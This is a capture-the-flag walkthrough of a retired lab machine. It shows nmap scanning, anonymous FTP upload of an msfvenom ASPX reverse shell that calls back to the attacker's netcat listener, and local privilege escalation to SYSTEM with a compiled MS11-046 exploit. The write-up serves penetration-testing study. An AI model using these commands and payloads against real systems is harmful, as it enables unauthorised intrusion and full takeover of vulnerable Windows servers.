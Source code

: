 # IP Address: 10.10.10.5

# Enumeration.1

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.5 -t all

Running all scans on 10.10.10.5

Host is likely running Windows


PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### FTP
Anonymous login possible. Test file upload. Success.
```
┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.txt 
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

# Exploitation.1

Create reverse shell executable and upload to the target. 
```
┌──(code㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4488 -f aspx > reverse.aspx        
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2737 bytes

┌──(code㉿kali)-[~]
└─$ ftp 10.10.10.5                                                                                  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:code): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put reverse.aspx 
local: reverse.exe remote: reverse.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
73802 bytes sent in 0.00 secs (663.9913 MB/s)
```

Browse to http://10.10.10.5/reverse.aspx and catch reverse shell with netcat listener on port 4488.

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>

```

No access to what directory probably has user.txt.
```
C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Users

18/03/2017  01:16 ��    <DIR>          .
18/03/2017  01:16 ��    <DIR>          ..
18/03/2017  01:16 ��    <DIR>          Administrator
17/03/2017  04:17 ��    <DIR>          babis
18/03/2017  01:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  09:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  22.282.698.752 bytes free

C:\Users>cd babis
cd babis
Access is denied.

```

# Enumeration.2
Copied over winpeas.exe but it's not running for some reason. We revert to manual enumeration. We are only the iis apppool\web user so we need a privilege escalation vector.

Windows 7 is notoriously riddled with vulnerabilities, so a quick Google search should turn up something. We try the first exploit for MS11-046.

# Exploitation.2

```
┌──(code㉿kali)-[~]
└─$ searchsploit -m windows_x86/local/40564.c

┌──(code㉿kali)-[~]
└─$ i686-w64-mingw32-gcc 40564.c -o afd.exe -lws2_32 
```

Copy the exploit to the target via FTP after setting the transfer mode to binary.

On the target: 
```
C:\inetpub\wwwroot>afd.exe
afd.exe

c:\Windows\System32>whoami 
whoami 
nt authority\system

```

# Proof
user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Devel/images/Pasted%20image%2020211113191455.png)

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Devel/images/Pasted%20image%2020211113191530.png)
